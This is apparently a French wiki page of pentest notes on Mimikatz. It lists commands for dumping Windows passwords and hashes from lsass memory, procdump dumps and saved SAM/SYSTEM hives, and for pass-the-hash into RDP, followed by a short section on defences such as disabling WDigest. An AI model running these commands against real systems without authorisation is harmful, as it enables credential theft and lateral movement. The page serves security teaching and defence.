 ```yaml
---
title: Mimikatz
permalink: /Mimikatz/
---
```


# Mimikatz

## Commandes utiles

Repris de https://github.com/gentilkiwi/mimikatz/wiki

### Récupération mots de passe

#### online

``` text
privilege::debug
sekurlsa::logonpasswords
```

#### offline

Récupération d'un dump avec prodcump

``` powershell
.\procdump64.exe -accepteula -ma lsass.exe c:\windows\tmp\lsass.dmp 
```

A partir d'un dump lsass.dmp

``` text
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

### Récupération de hashs

#### online

``` text
privilege::debug
token::elevate
lsadump::sam
```

#### offline

Récupérer SAM et system:
```text
reg save HKLM\SYSTEM SystemBkup.hiv
reg save HKLM\SAM SamBkup.hiv
```
Dumper les hashs avec mimikatz:
```text
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
```

### Pass the hash et RDP
``` text
privilege::debug
sekurlsa::pth /user:heidegger /domain:SHINRA-INC /ntlm:XXXXXXXXXXXXXXXX /run:"mstsc.exe /restrictedadmin"
```

## Secrets d'authentification en mémoire

Les "logins" suivants provoquent le stockage d'information d'authenficaction en mémoire (https://technet.microsoft.com/en-us/windows-server-docs/security/securing-privileged-access/securing-privileged-access-reference-material#a-nameatltbmaadministrative-tools-and-logon-types):

-   Log on at console
-   Remote Desktop
-   RunAs
-   Powershell WiRM with CredSSP
-   PsExec with explicit creds
-   Scheduled Task
-   Tool running as a service
-   IIS "Basic Authentication"

Trucs & astuces:
- Sous les vieilles versions de Windows il est possible d'utiliser mimilove.
- Il est possible de dumper lsass et de l'analyser offline avec mimikatz.

## Défenses

Il existe plusieurs mécanismes pour se défendre contre les attaques utilisant Mimikatz (Plus d'informations sur ADSecurity: <https://adsecurity.org/?p=559>)

### Désactiver wdigest

A partir de Windows 8.1 et Windows Server 2012 les mots de passes ne sont plus stockés en mémoire par défaut. De plus il est possible de faire en sorte que les mots de passe n'apparaissent pas en mémoire dans les anciennes versions de Windows. Il faut pour cela:

-   Appliquer le patch KB2871997
-   Modifier la clé de registre suivante pour qu'elle ait 0:

``` text
HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest “UseLogonCredential”(DWORD)
```


Références
----------

-   [Unofficial Guide to Mimikatz & Command Reference - ADSecurity](https://adsecurity.org/?page_id=1821)
-   [Mimikatz Overview, Defenses and Detection](https://www.sans.org/reading-room/whitepapers/detection/mimikatz-overview-defenses-detection-36780)
-   [Utilisation avancée de Mimikatz](http://connect.ed-diamond.com/MISC/MISC-066/Utilisation-avancee-de-Mimikatz)
-   [Administrative Tools and Logon Types](https://docs.microsoft.com/en-us/windows-server/identity/securing-privileged-access/securing-privileged-access-reference-material#ATLT_BM): Information sur la réutilisation des mots de passe

